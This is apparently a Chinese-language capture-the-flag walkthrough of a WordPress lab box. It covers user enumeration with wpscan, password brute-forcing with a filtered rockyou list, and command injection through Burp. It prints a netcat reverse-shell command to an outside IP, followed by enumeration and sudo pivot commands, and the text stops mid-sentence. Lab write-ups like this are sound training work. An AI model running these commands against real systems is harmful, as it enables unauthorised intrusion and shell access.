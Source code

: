 用dirb爆破出了一个登录界面 wp的 用wpscan扫描一下用户 看有什么信息吗

发现有很多个用户 把他做成一个txt来当用户爆破

密码本是看了有些人的提示

```
cat rockyou.txt | grep k01 > pa.txt 
```

然后成功爆出账户和密码

成功登录后台

## 命令注入
发现有个地方可以命令注入 但有字数限制 要么改前端的字数限制 要么bp抓包改 我是想到后者

看了一下用户有什么

![image.png](https://s2.loli.net/2025/04/12/ClRjnQMLZuIaYkP.png)

但在bp中一直反弹shell不了 很奇怪

用了另一个

```
nc -e /bin/bash 61.139.2.129 2333
```

反弹成功 然后改成交互式shell 

## 版本信息收集

```
uname -a

cat /etc/*-release

compgen -c
```

但无什么可用的信息 只能找一下home目录 找到一个txt 告诉我们新建了一个ssh用户

## 依旧信息收集

登录进去查找一下有什么线索吗

```
sudo -l

find / -perm -u=s -type f 2>/dev/null
```

发现了一个可用脚本 但运行不了 用sudo -u 切换到jens去运行脚本 

有个要注意的是  里面需要有一个shell 切换成功

“sudo -u jens ./backups.sh” 的意思是使用 “sudo” 命令以用户 “jens” 的身份执行当前目录下的 “backups.sh” 脚本文件 刚好
